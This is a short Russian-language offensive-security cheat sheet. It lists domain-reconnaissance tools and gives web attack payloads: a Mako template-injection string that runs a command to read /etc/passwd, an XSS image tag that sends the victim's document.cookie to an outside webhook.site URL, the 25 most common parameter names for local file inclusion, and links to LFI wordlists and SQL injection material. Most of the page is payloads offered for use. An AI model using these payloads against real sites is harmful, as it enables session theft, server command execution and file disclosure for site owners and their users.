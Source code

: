 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

DNS PTR-поиски
Альтернативные имена субъектов (SAN) в SSL-сертификатах
Общие имена (CN) в SSL-сертификатах

# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters

?cat={payload}

?dir={payload}

?action={payload}

?board={payload}

?date={payload}

?detail={payload}

?file={payload}

?download={payload}

?path={payload}

?folder={payload}

?prefix={payload}

?include={payload}

?page={payload}

?inc={payload}

?locate={payload}

?show={payload}

?doc={payload}

?site={payload}

?type={payload}

?view={payload}

?content={payload}

?document={payload}

?layout={payload}

?mod={payload}

?conf={payload}

##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/


